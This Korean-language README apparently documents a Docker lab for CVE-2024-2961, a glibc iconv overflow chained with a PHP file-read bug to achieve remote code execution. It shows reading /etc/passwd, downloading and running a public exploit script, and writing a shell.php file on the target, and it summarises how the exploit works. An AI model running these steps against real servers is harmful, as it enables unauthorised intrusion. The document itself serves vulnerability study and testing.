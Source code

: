 # 📌 CVE-2024-2961: PHP 파일 읽기를 통한 원격 코드 실행 취약점 (GNU C Library Iconv) 🛡️
**CVE-2024-2961**은 **PHP 애플리케이션**에서 **원격 코드 실행**(RCE)을 가능하게 하는 취약점이다.  
이 취약점은 **GNU C 라이브러리**(glibc)의 **iconv() 함수**에서 발생하며, 그로 인해 **버퍼 오버플로우**와 **원격 코드 실행**(RCE) 공격이 가능하다.  
  
<br>

## 📚 Table of Contents
- [취약점 개요 (Vulnerability Overview) 🛡️](#취약점-개요-vulnerability-overview)
- [취약점 영향 (Impact) ⚠️](#취약점-영향-impact)
- [취약한 환경 설정 (Vulnerable Environment) ⚙️](#취약한-환경-설정-vulnerable-environment)
- [취약점 악용 (Exploit) 👾](#취약점-악용-exploit)
- [PoC 코드 개요 (PoC Summary) 💻](#poc-코드-개요-poc-summary)
- [취약점 악용 흐름도 (Exploit Flow Diagram) ⏳](#취약점-악용-흐름도-exploit-flow-diagram)

<br>

## 🛡️ 취약점 개요 (Vulnerability Overview)
**GNU C 라이브러리**(glibc)는 호환성, 이식성, 높은 성능을 자랑하는 ISO C 라이브러리이다.  
**CVE-2024-2961**은 GNU C 라이브러리 **2.39 이하** 버전에서 발생하는 취약점으로, `iconv()` 함수에서 발생한다.  
특히, 문자열을 **ISO-2022-CN-EXT** 문자 집합으로 변환할 때, 출력 버퍼가 최대 **4바이트까지 오버플로우**되어 애플리케이션 충돌을 일으키거나 변수를 덮어쓸 수 있다.  
이 취약점은 **PHP 애플리케이션의 파일 읽기 취약점**과 결합되면서, 공격자가 **원격 코드 실행**(RCE) 공격을 수행할 수 있게 만든다.  

**참고문헌:**
- https://www.ambionics.io/blog/iconv-cve-2024-2961-p1

<br>

## ⚠️ 취약점 영향 (Impact)
- **버퍼 오버플로우**: 오버플로우로 인해 애플리케이션 충돌이나 메모리 손상이 발생할 수 있다.
- **원격 코드 실행**: 이 취약점을 악용하면 공격자가 원격에서 임의의 코드를 실행할 수 있다.

<br>

## ⚙️ 취약한 환경 설정 (Vulnearable Environment)
다음 명령어를 실행하여 **PHP 8.3.4** 서버와 **iconv 2.36** 버전이 포함된 환경을 시작한다:
   ```bash
   docker compose up -d
   ```
   서버가 시작되면, 브라우저에서 http://localhost:8080/index.php?file=/etc/passwd를 통해 /etc/passwd 파일을 읽을 수 있다.  

<br>

## 👾 취약점 악용 (Exploit)
1. 취약점을 악용하려면, Linux 기반 시스템과 **Python 3.10** 이상이 필요하다.
2. 필요한 종속성을 설치한다:
   ```bash
   pip install pwntools
   pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
   ```
3. PoC를 다운로드하고 실행한다:

   ```bash
   wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
   python cnext-exploit.py http://localhost:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```

   ❗주의: 만약 `localhost`가 작동하지 않는다면, 대신 자신의 IP 주소를 사용해야 한다.
   
   💡참고: 자신의 IP 주소는 `ipconfig` 명령어를 사용하여 확인할 수 있다.

     - Linux 환경에서는 `eth0` 인터페이스에서 IP를 확인할 수 있다.
       
   예를 들어, 자신의 IP 주소가 `192.168.1.100`이라면 아래와 같이 입력한다:
   ```bash
   python cnext-exploit.py http://192.168.1.100:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```
   `your-ip`는 `ipconfig` 명령어를 통해 확인한 실제 IP 주소로 바꿔야 한다.

   ![image](https://github.com/user-attachments/assets/83b19dd0-48bd-42d0-a45d-891851d44651)
    이처럼 shell.php가 성공적으로 작성된다.
   
4. 브라우저에서 `shell.php`를 확인한다.
   ```bash
   http://localhost:8080/shell.php
   ```
   ![image](https://github.com/user-attachments/assets/96357e65-63ff-4313-ba5d-c553cd743d37)
   위와 같이 `shell.php`가 잘 실행된다.

<br>

## 💻 PoC 코드 개요(PoC Summary)
`cnext-exploit.py`는 대상 서버의 **파일 읽기 취약점**을 이용하여, **glibc iconv 버그**를 트리거하고 **원격 코드 실행(RCE)**을 달성하는 익스플로잇 스크립트이다.

- 서버가 지원하는 PHP 스트림(wrapper) 기능 (`php://filter', 'zlib.inflate' 등)을 이용하여 서버 메모리를 조작한다.
- `/proc/self/maps` 파일을 통해 PHP 프로세스의 메모리 레이아웃(libc, 힙 주소 등)을 수집한다.
- `iconv()` 함수의 버퍼 오버플로우 취약점을 이용하여 메모리 구조를 덮어쓰고, 시스템 명령어 실행이 가능하도록 한다.
- 최종적으로 서버에 원하는 PHP 파일(`shell.php`)을 생성하여, 원격에서 명령어를 실행할 수 있다.

<br>

## ⏳ 취약점 악용 흐름도 (Exploit Flow Diagram)
```text
1. 환경 구성(PHP 8.34 + iconv 2.36)
2. /etc/passwd 파일 읽기 확인
3. PoC 스크립트 실행 (cnext-exploit.py)
4. shell.php 파일 생성
5. shell.php 접속 및 명령어 실행
6. 원격 코드 실행(RCE) 성공
```
